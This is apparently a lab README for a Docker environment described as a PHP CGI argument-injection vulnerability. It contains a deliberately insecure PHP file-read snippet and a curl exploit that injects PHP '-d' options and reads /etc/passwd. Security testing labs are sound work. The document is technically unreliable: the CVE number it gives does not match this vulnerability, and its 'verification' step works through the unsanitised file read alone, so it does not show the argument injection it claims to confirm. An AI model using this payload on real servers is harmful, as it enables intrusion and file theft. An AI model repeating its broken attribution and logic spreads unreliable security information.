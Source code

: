 # CVE-2024-2961 - PHP CGI Argument Injection

## Environment

Start the environment with:

```bash
docker compose up -d
```

Access the server at:

```
http://localhost:8080/index.php?file=index.php
```

The vulnerable PHP code:

```php
<?php
echo "File contents: ";
echo file_get_contents($_GET['file']);
?>
```

PHP Version: 8.3.4 (vulhub/php:8.3.4-apache)

---

## Vulnerability

When PHP runs in CGI mode, an attacker can inject command-line arguments via query parameters.  
By injecting `-d allow_url_include=on -d auto_prepend_file=php://input`, arbitrary code execution is possible.

This issue affects PHP 5 ~ 8.3.5.

---

## Exploit

First, verify the vulnerability by reading a system file:

```bash
curl "http://localhost:8080/index.php?-d+allow_url_include=on+-d+auto_prepend_file=php://input&file=/etc/passwd"
```

Expected result: the contents of `/etc/passwd` are displayed.  
If successful, this confirms that command-line arguments were injected into php-cgi.

---
